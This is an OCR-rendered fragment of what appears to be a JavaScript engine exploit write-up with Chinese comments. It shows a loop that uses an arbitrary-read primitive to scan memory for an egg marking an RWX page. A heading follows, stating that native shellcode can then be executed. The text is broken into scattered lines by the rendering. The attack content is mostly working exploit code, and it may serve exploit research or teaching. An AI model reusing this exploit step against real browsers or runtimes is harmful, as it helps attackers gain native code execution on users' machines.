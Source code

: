   
// 2. 从已知的trusted_space_ptr开始，扫描内存  
  
let  
rwx_page =  
0n  
;  
  
for  
(  
let  
i =  
0n  
; i <  
0x10000000n  
; i +=  
8n  
) {  
  
      
if  
(  
arbRead  
(trusted_space_ptr + i) === EGG) {  
  
          
// 找到了！将地址对齐到页边界  
  
        rwx_page = (trusted_space_ptr + i) & ~  
0xfffn  
;  
  
          
log  
(  
`[+] Found RWX page at   
${  
hex  
(rwx_page)  
}  
`  
);  
  
          
break  
;  
  
    }  
  
}  
### 执行原生代码 (rwx/shellcodes.js & rwx/src/*.asm):  
  
拥有RWX内存页和任意读写能力后，即可执行原生代码。
```
shellcodes.js
```

  
